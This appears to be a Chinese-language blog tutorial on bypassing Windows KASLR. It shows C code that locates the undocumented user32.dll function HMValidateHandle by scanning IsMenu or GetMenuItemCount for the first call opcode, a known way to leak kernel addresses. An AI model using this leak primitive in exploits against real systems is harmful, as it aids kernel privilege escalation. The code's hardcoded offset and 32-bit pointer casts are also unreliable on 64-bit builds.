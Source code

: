 ```yaml
---
layout: post
title: HMValidateHandle
tags: Windows,tools
---
```


# HMValidateHandle

## 0x00 前言

一个典型的漏洞利用过程大概分为以下几步：

触发漏洞 —> 信息泄露 —> 构造读写原语 —> 代码执行

信息泄露的目的是利用一些泄露内核内存地址信息的方法，绕过 KASLR

## 0x01 KASLR

Windows vista 之后，微软对内核默认启用了 ASLR，即 KASLR，KASLR随机化了模块的加载基址，内核对象地址等，作为漏洞缓解的一种手段。对抗 KASLR 最直接的方法就是使用未公开函数或 Windows 内核信息泄露漏洞泄露内核内存地址信息。

## 0x02 HMValidateHandle

HMValidateHandle 是 user32.dll 中一个内部未公开的函数，他需要两个参数：handle、handle_type，通过查找句柄表，如果句柄与类型匹配，对象将会被复制到用户内存中，如果对象包含指向自身的指针，比如tagWND，HMValidateHandle 就能用来泄露内核内存地址。在 Windows 10 RS4 之后，微软关闭了这个函数。

## 0x03 查找HMValidateHandle

用 IDA 分析 user32.dll，查找到函数 isMenu：

![](https://gitee.com/tboom_is_here/bed/raw/master/img/image.png)

可以看到 HMVaildateHandle 在此函数中被调用，因此只要查找此函数，找到 opcode 等于 e80，就可以找到HMValidateHandle 的地址。

整个代码流程为：

![image-20210909183005095](https://gitee.com/tboom_is_here/bed/raw/master/img/image-20210909183005095.png)

## 0x04 代码

```C
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef void* (NTAPI *lHMValidateHandle)(HWND h, int type);
#else
typedef void* (_fastcall *lHMValidateHandle)(HWND h, int type);
#endif

lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle()
{
  HMODULE hUser32 = LoadLibraryA("user32.dll");  // 加载 user32.dll
  if (hUser32 == NULL)
  {
    printf("Failed to load user32.dll");
    return FALSE;
  }

  BYTE* pIsMenu = (BYTE*)GetProcAddress(hUser32, "IsMenu");  // 检索 user32.dll 中的输出库函数 IsMenu 地址

  if (pIsMenu == NULL)
  {
    printf("Failed to find location of exported function 'IsMenu' within user32.dll\n");
    return FALSE;
  }

  unsigned int uiHMValidateHandleOffset = 0;

  //寻找第一个 Call 的偏移，即 HMValidateHandle 的偏移
  for (unsigned int i = 0; i < 0x1000; i++)
  {
    BYTE* test = pIsMenu + i;
    if (*test == 0xE8)
    {
      uiHMValidateHandleOffset = i + 1;
      break;
    }
  }
  if (uiHMValidateHandleOffset == 0)
  {
    printf("Failed to find offset of HMValidateHandle from location of 'IsMenu'\n");
    return FALSE;
  }

  unsigned int addr = *(unsigned int*)(pIsMenu + uiHMValidateHandleOffset);  // 获取 HMValidateHandle 对应的操作数

  pHmValidateHandle = (lHMValidateHandle)((unsigned int)pIsMenu + 11 + addr);  //要CALL的地址 = E8 后面的硬编码 + 下一条指令地址，11 是 CALL 的下一条指令相对 IsMenu 的偏移

  return TRUE;

}

int main()
{
  BOOL isFound = FindHMValidateHandle();
  printf("The address of HmValidateHandle is 0x%x", pHmValidateHandle);
}

```


![](https://gitee.com/tboom_is_here/bed/raw/master/img/image_2.png)

## 0x05 代码2

有上面的操作流程可知，只要调用了 HMValidateHandle 的函数都可以用来寻找 HMValidateHandle 的函数地址。

IDA查看引用：

![](https://gitee.com/tboom_is_here/bed/raw/master/img/image_3.png)

挑选偏移较小的函数，如 GetMenuItemCount：

![](https://gitee.com/tboom_is_here/bed/raw/master/img/image_4.png)

首次调用的依然是 HMValideateHandle，因此可以直接修改代码为：

```C
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef void* (NTAPI *lHMValidateHandle)(HWND h, int type);
#else
typedef void* (_fastcall *lHMValidateHandle)(HWND h, int type);
#endif

lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle()
{
  HMODULE hUser32 = LoadLibraryA("user32.dll");  // 加载 user32.dll
  if (hUser32 == NULL)
  {
    printf("Failed to load user32.dll");
    return FALSE;
  }

  BYTE* pGetMenuItemCount = (BYTE*)GetProcAddress(hUser32, "GetMenuItemCount");  // 检索 user32.dll 中的输出库函数 GetMenuItemCount 地址

  if (pGetMenuItemCount == NULL)
  {
    printf("Failed to find location of exported function 'GetMenuItemCount' within user32.dll\n");
    return FALSE;
  }

  unsigned int uiHMValidateHandleOffset = 0;

  //寻找第一个 Call 的偏移，即 HMValidateHandle 的偏移
  for (unsigned int i = 0; i < 0x1000; i++)
  {
    BYTE* test = pGetMenuItemCount + i;
    if (*test == 0xE8)
    {
      uiHMValidateHandleOffset = i + 1;
      break;
    }
  }
  if (uiHMValidateHandleOffset == 0)
  {
    printf("Failed to find offset of HMValidateHandle from location of 'GetMenuItemCount'\n");
    return FALSE;
  }

  unsigned int addr = *(unsigned int*)(pGetMenuItemCount + uiHMValidateHandleOffset);  // 获取 HMValidateHandle 对应的操作数

  pHmValidateHandle = (lHMValidateHandle)((unsigned int)pGetMenuItemCount + 11 + addr);  //要CALL的地址 = E8 后面的硬编码 + 下一条指令地址，11 是 CALL 的下一条指令相对 GetMenuItemCount 的偏移

  return TRUE;

}

int main()
{
  BOOL isFound = FindHMValidateHandle();
  printf("The address of HmValidateHandle is 0x%x",pHmValidateHandle);
}
```

